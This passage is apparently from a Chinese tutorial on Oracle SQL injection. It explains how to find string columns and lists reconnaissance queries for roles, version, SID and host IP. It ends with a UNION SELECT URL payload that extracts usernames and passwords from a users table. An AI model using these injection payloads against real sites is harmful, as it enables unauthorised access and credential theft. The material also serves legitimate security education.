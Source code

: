 把每一位的 `null` 依次用单引号 ’ 引起来，**如果报错，则不是字符串类型的列**；如果**返回正常，则是字符串类型的列**，就可以在相应的位置插入查询语句获取信息。

**② 获取敏感信息**
常见的敏感信息如下：

- 当前用户权限：`SELECT * FROM session_roles`
- 当前数据库版本：`SELECT banner FROM sys.v_$version WHERE rownum = 1`
- 服务器出口 IP：用`utl_http.request` 可以实现
- 服务器监听 IP：`SELECT utl_inaddr.get_host_address FROM dual`
- 服务器操作系统：`SELECT member FROM v$logfile WHERE rownum = 1`
- 服务器 SID：`SELECT instance_name FROM v$instance`
- 当前连接用户：`SELECT SYS_CONTEXT('USERENV', 'CURRENT_USER') FROM dual`

**③ 获取数据库表及其内容**
在得知表的列数之后，可以通过查询元数据的方式查询表名称、列名称，然后查询数据，如：
`http://www.aaa.org/new.jsp?id=1 UNION SELECT username, password, null FROM users --`
注意：在查询数据时同样要注意数据类型，否则无法查询，只能一一测试，改变参数的查询位置。

引用网站:https://blog.csdn.net/weixin_43915762/article/details/87909751
